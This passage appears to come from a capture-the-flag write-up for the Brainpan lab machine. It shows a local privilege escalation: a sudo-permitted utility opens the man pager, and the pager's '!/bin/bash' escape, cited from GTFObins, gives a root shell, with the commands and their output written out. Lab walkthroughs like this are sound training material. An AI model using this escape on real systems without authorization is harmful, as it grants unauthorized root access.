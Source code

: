 Okay, so we can run `/home/anansi/bin/anansi_util` as root. Lets run that.

```console
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

we can use _anansi_util_  to run 3 commands as root.
1. network - this will just print ifconfig command output.
2. proclist - does not work
3. manual - prints the man pages.

We can get privilege escalation for *manual* binary by checking from [GTFObins](https://gtfobins.github.io/gtfobins/man/#sudo)

```console
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util manual man
sudo /home/anansi/bin/anansi_util manual man
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!/bin/bash
root@brainpan:/usr/share/man# whoami
whoami
root
```

We are Root !